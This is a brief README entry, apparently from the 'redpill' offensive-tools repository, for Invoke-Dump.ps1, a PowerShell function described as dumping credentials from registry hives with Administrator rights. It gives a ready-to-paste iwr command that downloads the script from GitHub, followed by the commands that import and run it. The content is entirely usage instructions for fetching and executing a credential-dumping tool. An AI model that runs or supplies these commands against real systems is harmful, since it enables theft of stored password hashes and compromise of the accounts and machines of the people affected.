 ## Invoke-Dump.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Dump|Dump credentials from registry hives.|Administrator|[Screenshot](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Dump-Sam/Invoke-HiveDump.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Sam/Invoke-Dump.ps1" -OutFile "Invoke-Dump.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\Invoke-Dump.ps1" -Force
Invoke-Dump
```
